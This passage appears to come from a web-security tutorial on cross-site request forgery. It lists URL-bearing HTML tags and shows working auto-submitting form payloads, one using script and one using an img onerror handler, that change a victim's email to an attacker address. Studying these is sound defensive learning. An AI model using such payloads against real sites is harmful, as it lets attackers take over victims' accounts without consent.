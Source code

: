 - `<audio src=url>`
- `<button formaction=url>`
- `<command icon=url>`
- `<embed src=url>`
- `<html manifest=url>`
- `<input formaction=url>`
- `<source src=url>`
- `<track src=url>`
- `<video poster=url>` and `<video src=url>`



### Post Requests

Submitting data that needs to be processed server side utilizing the HTTP GET method is not a good idea. GET requests should only be used to retrieve information while POST is the appropriate method to use when dealing with sensitive data.

Even if the ways of distributing the CSRF attack and deceiving the victim are the same, exploiting a CSRF flaw with a form action, requiring HTTP POST is slightly different than GET

Using only HTML, the only way to forge POST requests is with the attribute method of tag FORM

```html
<form action="somewhere" method="POST">
```

As a result, we need to create a cloned form and then social engineer the victim into clicking the submit button.



However, this is only one of many possible scenarios. We can use HTML + JavaScript and create a much more effective attack that does not require user interaction.

Let’s look at the evolution of the previous change email example, but this time using POST

Auto submitting a form requires the submit() method and a bit of JavaScript, as we can see below:

```html
<form action="change.php " method="POST" id="CSRForm">
    <input name="old" value="myC00Lemail@victim.site">
    <input name="new" value="evil@hacker.site">
</form>

<script> document.getElementById("CSRForm").submit()</script>
```



The script tag is not our only option in this context. By using event handlers, we can further add HTML elements in the malicious page. For example, `onload` and `onerror` are event handlers that do not require user interaction.

```html
<form action="change.php " method="POST" id="CSRForm">
    <input name="old" value="myC00Lemail@victim.site">
    <input name="new" value="evil@hacker.site">
    <img src=x onerror="CSRForm.submit();">
</form>
```
